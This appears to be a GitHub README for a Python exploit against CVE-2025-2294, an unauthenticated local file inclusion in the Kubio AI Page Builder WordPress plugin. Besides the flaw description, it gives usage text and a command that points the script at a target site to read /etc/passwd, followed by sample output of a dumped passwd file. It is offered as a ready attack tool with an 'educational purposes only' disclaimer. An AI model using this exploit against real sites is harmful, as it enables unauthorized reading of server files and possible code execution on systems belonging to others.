 # 🚨 Kubio AI Page Builder <= 2.5.1 - Unauthenticated Local File Inclusion

## 📝 Description

The Kubio AI Page Builder plugin for WordPress is vulnerable to Local File Inclusion in all versions up to, and including, 2.5.1 via the `kubio_hybrid_theme_load_template` function. This makes it possible for unauthenticated attackers to include and execute arbitrary files on the server, allowing the execution of any PHP code in those files. This can be used to bypass access controls, obtain sensitive data, or achieve code execution in cases where images and other “safe” file types can be uploaded and included.

- **CVE:** CVE-2025-2294
- **CVSS:** 9.8 (Critical)
- **Publicly Published:** March 27, 2025
- **Last Updated:** March 27, 2025

## 💥 Exploit Details

This script exploits the vulnerability in the Kubio AI Page Builder plugin to include and execute arbitrary files on the server. The exploit allows unauthenticated attackers to read sensitive files from the server.

### ⚙️ Requirements

- Python 3.x
- `requests` library

### 🚀 Usage

```bash
usage: CVE-2025-2294.py [-h] -u URL [-f FILE]

Exploit for CVE-2025-2294 Kubio AI Page Builder <= 2.5.1 - Unauthenticated Local File Inclusion # By:Nxploited Khaled Alenazi

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target base URL (e.g., https://example.com)
  -f FILE, --file FILE  File to read (default: /etc/passwd)
```

### 📋 Example

```bash
python3 CVE-2025-2294.py -u https://targetwebsite.com -f /etc/passwd
```

### 🔍 Output

```plaintext
[+] Target is vulnerable. Exploiting...
[+] Exploit successful. File content:
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:992:992:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
tss:x:101:104:TPM software stack,,,:/var/lib/tpm:/bin/false
strongswan:x:102:65534::/var/lib/strongswan:/usr/sbin/nologin
tcpdump:x:103:105::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:105:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin


```

## ⚠️ Disclaimer

This exploit is provided for educational purposes only. The author is not responsible for any misuse of this tool. Use it at your own risk.

*By: Nxploited | Khaled Alenazi*
